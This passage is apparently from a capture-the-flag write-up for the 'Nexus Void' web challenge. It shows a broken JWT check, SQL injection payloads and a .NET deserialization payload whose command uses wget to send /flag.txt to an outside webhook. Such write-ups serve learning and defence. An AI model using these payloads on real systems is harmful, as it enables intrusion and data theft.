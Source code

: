 ValidateToken function as per the JWTHelper class will execute the following if the token is invalid.
```cs
catch 
{
    return false.ToString();
}
```
`false.ToString()` will return as `False`. Which is not equal to `false` when checked in the middleware.
This basically translates to the fact that JWT implementation is flawed and even if wrong signature is provided, the application will accept our JWT token instead of redirecting us to the login endpoint.

## Final Exploit

So first we will register and login to the application. Then we will edit the JWT token and change the `ID` value with a SQL Injection payload to manipulate the results of the SQL query and inject our malicious payload into the 'data' field.
```
"ID": "' union select '1','2','<Base64 payload>' as 'data' --"
```
RCE payload = `{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":null,"command":"wget <webhook>?msg=$(cat /flag.txt)"}`
Then we visit the wishlist endpoint. Data now has the base64 payload from the above injection and the deserialize function will base64 decode the payload and deserialize it.

This is the method that we used to solve the challenge but later we found out there are other ways to solve it.

## Flag

`HTB{D0tN3t_d3s3r1al1z4t10n_v14_sQL_1NJ3CT10N_1s_fun!}`

## Alternate Methods
### 1->

In the login and register page the username and password field is neither being sanitized nor are they using prepared statements which means SQL Injection is possible. So we could inject second order SQL injection payload in the username while logging in as
`herox' UNION SELECT ALL 8,"herox','<base64 payload>')--", "herox"-- "`

The above payload sets our username as the following.
`herox','<base64 payload')--`
After that when adding a product to the wishlist, it will use the username from our JWT token and since its vulnerable to SQL Injection it will insert our malicious serialized data into the table, and visiting wishlist page will trigger it.

This method is explained in the [HTBWriteup](https://github.com/hackthebox/uni-ctf-2023/tree/main/uni-ctf-2023/web/%5BMedium%5D%20Nexus%20Void)

### 2->
Another method is by using SQL injection, when a product is added to the wishlist. When a product is added to the wishlist it takes product name and sellername from the user. Here the function allows the user to  execute multiple queries seperated by ';'. So we can insert into the wishlist table. If we put below SQL query as the sellername we can insert into the wishlist table. 
`aaa' ; INSERT INTO Wishlist(ID, username, data)  VALUES(2,"test2","serialized") ; `
Then if we go to the wishlist endpoint, this serialized data will be given to the `Deserialize()` function in the wishlist endpoint and the command execution will be triggered. 
 [https://medium.com/@kokomagedd/htb-university-ctf-2023-web-writeups-fcbcc5181b0b](https://medium.com/@kokomagedd/htb-university-ctf-2023-web-writeups-fcbcc5181b0b#:~:text=Nexus%20Void%20challenge)

